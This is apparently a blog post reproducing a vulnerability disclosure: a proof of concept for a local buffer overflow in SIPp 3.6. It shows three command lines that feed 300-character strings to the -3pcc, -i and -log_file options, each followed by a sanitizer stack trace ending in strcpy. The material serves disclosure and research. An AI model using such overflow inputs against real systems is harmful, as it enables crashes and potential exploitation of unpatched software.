 ```yaml
---
layout: post
title: "SIPp 3.6 - Local Buffer Overflow (PoC)"
comments: true
description: "SIPp 3.6 - Local Buffer Overflow (PoC)"
keywords: "poc, sipp 3.6, buffer overflow"
---
```


Exploit Title: SIPp 3.6 - Local Buffer Overflow (PoC)<br>
Date: 2018-06-30<br>
Exploit Author: Fakhri Zulkifli<br>
Vendor Homepage: http://sipp.sourceforge.net/<br>
Software Link: https://github.com/SIPp/sipp/releases<br>
Version: 3.6-dev and earlier<br>
Tested on: 3.6-dev<br>

```
$ ./sipp -3pcc `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x668d06 in main /home/user/sipp/src/sipp.cpp:1531:17
#2 0x7ff5ec21282f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)

$ ./sipp -i `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x66a303 in main /home/user/sipp/src/sipp.cpp:1477:17
#2 0x7f281302682f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)

$ ./sipp -log_file `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x66912f in main /home/user/sipp/src/sipp.cpp:1706:17
#2 0x7f6ca663782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)
```
